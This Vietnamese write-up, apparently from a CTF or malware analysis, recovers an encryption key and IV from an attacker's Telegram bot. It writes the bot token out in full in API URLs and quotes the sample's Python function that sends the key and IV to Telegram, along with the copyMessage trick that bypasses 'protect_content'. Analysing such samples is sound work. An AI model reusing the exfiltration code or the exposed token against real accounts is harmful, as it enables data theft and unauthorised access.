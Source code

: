 ##### Để lấy được key và iv trước tiên phải lấy thông tin bot cái đã, sử dụng method getMe
```
https://api.telegram.org/bot7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0/getMe
```

![image](https://hackmd.io/_uploads/BkCTOMpSkg.png)
##### Vào telegram và start bot này
##### Research từ google mình nhận ra ta có thể sử dụng method forwardMessage của telegram để chuyển tiếp một tin nhắn từ một chat này sang một chat khác mà không thay đổi nội dung tin nhắn.
```
https://api.telegram.org/bot7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0/forwardMessages?from_chat_id=1617506446&message_ids=[1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25]&chat_id=8051097960
```
##### Trong đó from_chat_id là id con bot của attacker, message_ids là id đoạn chat muốn chuyển tiếp, và chat_id là id chuyển tiếp đến (id của mình)
##### Tuy nhiên đầu ra lại không có gì hết
![image](https://hackmd.io/_uploads/HJbooGaBJx.png)
![image](https://hackmd.io/_uploads/HyjjiM6Hyl.png)
##### Tiếp tục tìm kiếm mình tìm thấy 1 method khác là copyMessage cho phép sao chép nội dung của một tin nhắn từ một chat này sang một chat khác. Tương tự như forwardMessages nhưng tin nhắn này sẽ được sao chép chứ không phải chuyển tiếp như forwardMessages thì ta thu được key và iv 
##### Lý giải cho việc tại sao cả 2 method lại đưa ra kết quả khác nhau vì khi sử dụng `'protect_content': True` trong API gửi tin nhắn của Telegram, mục đích là để bảo vệ nội dung tin nhắn khỏi việc bị sao chép hoặc chia sẻ lại. Điều này giúp bảo vệ tính bảo mật của tin nhắn, không cho phép người nhận hoặc người tiếp theo trong cuộc trò chuyện sao chép hoặc chuyển tiếp nội dung tin nhắn. 
```python
def send_to_telegram(key, iv, token, chat_id):
    message = f'''Key: {key}\nIV: {iv}'''
    url = f'''https://api.telegram.org/bot{token}/sendMessage'''
    data = {
        'chat_id': chat_id,
        'text': message,
        'protect_content': True }
    response = requests.post(url, data = data)
```
##### Ta có thể sao chép tin nhắn mặc dù nội dung được bảo vệ, vì cơ chế sao chép khác với việc chuyển tiếp, và Telegram có thể cho phép sao chép tin nhắn trong khi vẫn bảo vệ nội dung.
